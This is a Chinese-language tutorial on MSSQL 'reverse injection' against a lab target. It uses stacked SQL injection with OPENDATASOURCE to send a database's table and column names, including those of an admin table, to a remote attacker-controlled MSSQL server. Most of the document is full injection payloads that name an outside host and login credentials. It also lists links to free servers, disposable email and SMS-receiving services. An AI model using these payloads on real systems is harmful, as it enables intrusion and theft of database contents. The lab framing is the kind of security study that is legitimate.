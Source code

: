 就像在Mysql中可以通过dnslog外带，Oracle可以通过python搭建一个http服务器接收外带的数据一样，在MSSQL数据库中，我们同样有方法进行数据外带，那就是通过反弹注入外带数据。
反弹注入条件相对苛刻一些，需要一台搭建了mssql数据库的vps服务器，需要开启堆叠注入。
反弹注入需要使用opendatasource函数。

```php
OPENDATASOURCE(provider_name,init_string):使用opendatasource函数将当前数据库查询的结果发送到另一数据库服务器中。
```

```php
申请免费云服务器：香港云：http://www.webweb.com/在线邮箱：http://24mail.chacuo.net/接码平台：https://yunduanxin.net/
```

## 1、环境准备

1、首先打开靶场
![](https://p3.ssl.qhimg.com/t0125c9c6371197c223.png)
3、连接vps的mssql数据库，新建表test，字段数与类型要与要查询的数据相同。这里因为我想查询的是数据库库名，所以新建一个表里面只有一个字段，类型为varchar。

```php
CREATE TABLE test(name VARCHAR(255))
```

![](https://p0.ssl.qhimg.com/t01202219ab5bf4ddfc.png)

## 2、获取数据库所有表

1、使用反弹注入将数据注入到表中，注意这里填写的是数据库对应的参数，最后通过空格隔开要查询的数据。

```php
#查询sysobjects表?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.sysobjects where xtype='U' -- qwe#查询information_schema数据库?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select table_name from information_schema.tables -- qwe
```

2、执行成功页面返回正常。
![](https://p5.ssl.qhimg.com/t01dbe22abee44923d4.png)
3、在数据库中成功获取到数据。
![](https://p2.ssl.qhimg.com/t014a5c058780e87669.png)

## 3、获取数据库admin表中的所有列名

```php
#查询information_schema数据库?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select column_name from information_schema.columns where table_name='admin'-- qwe#查询syscolumns表?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.syscolumns where id=1977058079-- qwe
```

![](https://p0.ssl.qhimg.com/t018c0e415a5ac7d536.png)
![](https://p1.ssl.qhimg.com/t01957478eb17de4d8a.png)
